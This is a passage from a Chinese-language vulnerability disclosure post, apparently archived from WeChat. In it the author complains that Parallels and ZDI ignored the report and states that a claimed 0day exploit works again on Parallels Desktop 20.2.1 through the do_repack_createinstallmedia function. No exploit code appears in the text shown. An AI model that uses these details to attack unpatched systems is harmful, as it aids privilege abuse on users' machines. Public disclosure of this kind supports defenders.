0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">2025-02-20</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">我：0day漏洞披露</span></section></td></tr></tbody></table>  
  
由于厂商**Parallels装聋作哑**  
，我不得不现在公开这个**0day漏洞利用**  
。  
零日漏洞计划(ZDI)  
和受影响的厂商  
Parallels  
都让人失望，不是吗？  
## 最新版本的0day  
  
通过测试，我发现Parallels已经撤销了19.4.1版本的更改。  
  
现在，他们又切换回使用do_repack_createinstallmedia  
函数。  
  
所以我的**漏洞利用1**  
可以在最新版本20.2.1 (55876)  
上使用，演示视频：  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
